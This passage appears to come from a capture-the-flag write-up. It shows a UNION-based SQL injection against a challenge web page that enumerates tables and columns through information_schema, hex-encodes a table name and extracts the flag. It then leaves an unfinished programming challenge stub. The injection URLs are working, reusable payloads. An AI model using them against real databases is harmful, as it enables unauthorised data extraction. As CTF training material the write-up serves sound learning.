 ```
http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,table_name,8 from information_schema.tables where table_schema=database()--+

Name: Saranac
Breed: Great Dane
Color: Black
Name: 42
Breed: 5
Color: w0w_y0u_f0und_m3
Name: 42
Breed: 5
Color: webeight
```

so we know the table_name is `w0w_y0u_f0und_m3`

now for the column names (we had to hex encode the table name for this to work):

```
http://yrmyzscnvh.abctf.xyz/web8/?id=2 union select 2,2,column_name,8 from information_schema.columns where table_schema=database() and table_name=0x7730775f7930755f6630756e645f6d33--+
Name: Doodle
Breed: Poodle
Color: Pink
Name: 2
Breed: 2
Color: f0und_m3
'''

So we found the column name we need. now to extract data from this column

http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 2,4,f0und_m3,1 from w0w_y0u_f0und_m3--+
Name: Saranac
Breed: Great Dane
Color: Black
Name: 4
Breed: 2
Color: abctf{uni0n_1s_4_gr34t_c0mm4nd}
```

**Flag**  
```
abctf{uni0n_1s_4_gr34t_c0mm4nd}
```

## Programming 150: Qset2
**Challenge**  
Time for something harder.. write a program to calculate the square root of an input. `nc 107.170.122.6 7772`
**Solution**  
**Flag**  
```
flag
```
